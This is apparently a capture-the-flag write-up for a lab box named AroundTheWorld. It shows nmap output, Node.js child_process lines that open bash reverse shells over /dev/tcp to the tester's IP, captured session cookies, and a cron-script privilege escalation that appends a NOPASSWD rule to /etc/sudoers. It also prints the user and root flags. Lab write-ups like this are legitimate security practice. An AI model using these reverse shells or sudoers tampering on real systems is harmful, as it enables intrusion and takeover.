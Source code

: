 # AroundTheWorld

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.3.188                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 11:25 BST
Nmap scan report for 10.10.3.188
Host is up (0.034s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Around The World
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.37 seconds
```
## Exploitation

### Sessions cookie with Burp Suite for the exploit

```bash
marius = connect.sid=s%3AYEh3XOXfeJ4VmlYmq7JRYp6waS-y555e.Ts929QOfsFRtzp%2FT3bT9nOizyk1LRI5oYZTlTe8vRZs

clement = connect.sid=s%3A40X2GhAa_PU5sozzpjJJkN4O2xcwURpc.FW0yOOX%2BMZeltzwEL8HXypG167cJU1A9FMVop3uE6TM

yes 1 | head -n 10000 > gold.txt

./script.py

require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4447 <&1'")
require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4444 <&1'")
```
### Got a reverse shell as simple user

#### Spawn an upgrade shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User FLAG

```bash cat user.txt``` = EPI{we_R_HuM4N2_4f7eR_4ll}

## Privilege Escalation

### Got a shell as tb3 who has more rights
```bash
sudo -u tb3 /bin/bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

./pspy64 :

2024/05/28 12:05:55 CMD: UID=0     PID=2      | 
2024/05/28 12:05:55 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/05/28 12:06:01 CMD: UID=0     PID=1685   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1684   | rm /home/gm08/admin/log.jukebox 
2024/05/28 12:06:01 CMD: UID=0     PID=1683   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1682   | /bin/sh /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1681   | /bin/sh -c /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1680   | /bin/sh -c /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1679   | /usr/sbin/CRON -f 
2024/05/28 12:06:01 CMD: UID=0     PID=1678   | /usr/sbin/CRON -f

tb3@aroundtheworld:~/admin$ cat clean_logs.sh 
rm /home/gm08/admin/log.jukebox

./jukebox clean_logs.sh

eecchhoo  ""ttbb33  AALLLL==((AALLLL::AALLLL))  NNOOPPAASSSSWWDD  //bbiinn//bbaasshh""  >> //eettcc//ssuuddooeerrss

sudo chown luffy:luffy /root
ssuuddoo  cchhoowwnn  ttbb33::ttbb33  //rroooott

ccaatt  //rroooott//rroooott..ttxxtt  >>  //hhoommee//ttbb33//rroooott..ttxxtt
```

## Root FLAG

```bash cat root.txt``` = EPI{172_4m421n9_WH@_JOoll_ph1ND_ph4c3_7o_Ph4c3}
